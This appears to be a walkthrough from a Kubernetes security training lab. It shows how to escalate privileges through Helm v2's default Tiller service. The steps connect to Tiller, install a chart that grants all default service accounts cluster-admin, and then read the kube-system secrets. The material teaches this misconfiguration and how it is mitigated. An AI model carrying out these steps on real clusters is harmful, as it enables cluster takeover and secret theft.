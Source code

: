# Helm v2 tiller to PwN the cluster

## Scenario Information

Helm is a package manager for Kubernetes. It's like `apt-get` for ubuntu. In this scenario, we will see the older version of helm (version 2), tiller service RBAC default setup to gain access to the completed cluster.

* To get started with the scenario, run the following command
  
```bash
kubectl run --rm --restart=Never -it --image=madhuakula/k8s-goat-helm-tiller -- bash
```

![Scenario 9 welcome](images/sc-9-1.png)

## Scenario Solution

* By default helm version 2 tiller deployment has RBAC with full cluster administrator privileges
* So the default installation is in `kube-system` namespace with service name `tiller-deploy` and port `44134` exposed to `0.0.0.0`. So we can verify by running telnet command

```bash
telnet tiller-deploy.kube-system 44134
```

![Scenario 9 telnet](images/sc-9-2.png)

* Now, we are able to connect to the tiller service port. We can use the helm binary to perform operations and talk to tiller service

```bash
helm --host tiller-deploy.kube-system:44134 version
```

![Scenario 9 telnet](images/sc-9-3.png)

* Let's try if we can get Kubernetes secrets from the cluster from `kube-system` namespace

```bash
kubectl get secrets -n kube-system
```

![Scenario 9 before secrets](images/sc-9-4.png)

* Now we can create our own helm chart to give permission to default service account full cluster admin access, as by default the current pod deployed in default namespace which has default service account

```bash
helm --host tiller-deploy.kube-system:44134 install --name pwnchart /pwnchart
```

![Scenario 9 deploy chart](images/sc-9-5.png)

* Now the `pwnchart` has been deployed, it has given all the default service accounts cluster admin access. Hence let's try getting the `kube-system` namespace secrets again

```bash
kubectl get secrets -n kube-system
```

![Scenario 9 deploy chart](images/sc-9-6.png)

> This scenario varies how the tiller deployment has been performed, sometimes admins deploy tiller to specific namespace with specific privilege. Also from Helm version 3 there is no tiller service to mitigate such vulnerabilities

## Miscellaneous

* [https://engineering.bitnami.com/articles/helm-security.html](https://engineering.bitnami.com/articles/helm-security.html)
